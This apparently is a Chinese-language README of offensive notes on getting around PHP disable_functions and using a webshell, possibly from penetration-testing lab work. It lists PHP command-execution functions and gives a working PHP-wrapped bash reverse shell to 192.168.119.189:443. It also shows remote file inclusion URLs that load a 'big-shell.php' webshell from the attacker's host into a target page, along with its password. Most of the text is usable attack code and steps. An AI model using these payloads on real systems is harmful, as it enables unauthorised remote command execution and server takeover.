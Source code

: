 # 使用方法
1. 先通过获取 phpinfo 信息，确定哪些函数是被 disable_funtion 禁止
2. 对比`PHP中可执行系统命令的函数`，找到一个可以用于**执行系统命令**的函数
3. 通过下面的简单测试，**先确认**该函数确实可以执行：
```
<?php
echo "php function test.";
# shell_exce 修改成测试函数
$output = shell_exec('ls -lart');
echo "<pre>$output</pre>";
?>

```
4. 确认执行 shell 的函数后，可结合`nc`、`bash`、`php`等方式反弹 shell，详见[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#php)。
例如，我之前遇到使用 nc 不能反弹回 shell，于是尝试了直接使用 bash 反弹 shell 就成功了：
```
<?php
echo "php function test";
$output = shell_exec("bash -i >& /dev/tcp/192.168.119.189/443 0>&1");
echo "<pre>$output</pre>";
?>
```

# PHP中可执行系统命令的函数

- exec — 执行一个外部程序
- passthru — 执行外部程序并且显示原始输出
- shell_exec — 通过 shell 环境执行命令，并且将完整的输出以字符串的方式返回。
- system — 执行外部程序，并且显示输出
- [popen](https://www.php.net/manual/zh/function.popen.php) - 打开一个指向进程的管道，该进程由派生给定的 command 命令执行而产生。
- proc_open — 执行一个命令，并且打开用来输入/输出的文件指针。
`popen`和`proc_open`现在其他 php-shell 中普遍用的较少，可以重点留意一下
# big-shell.php
Usage
RFI:
- 1. `http://10.11.1.35/section.php?page=http://192.168.119.189:8000/test.txt`，then input the passwd `pass`
- 2. 这时候因为是 RFI 包含的此大马，所以页面会自动重载为section.php，需要手动再次进入：`http://10.11.1.35/section.php?page=http://192.168.119.189:8000/test.txt`，然后就可以看到大马的页面
- 3. 进入fbrowser 需要手动输入：`http://10.11.1.35/section.php?page=http://192.168.119.189:8000/test.txt&act=fbrowser`
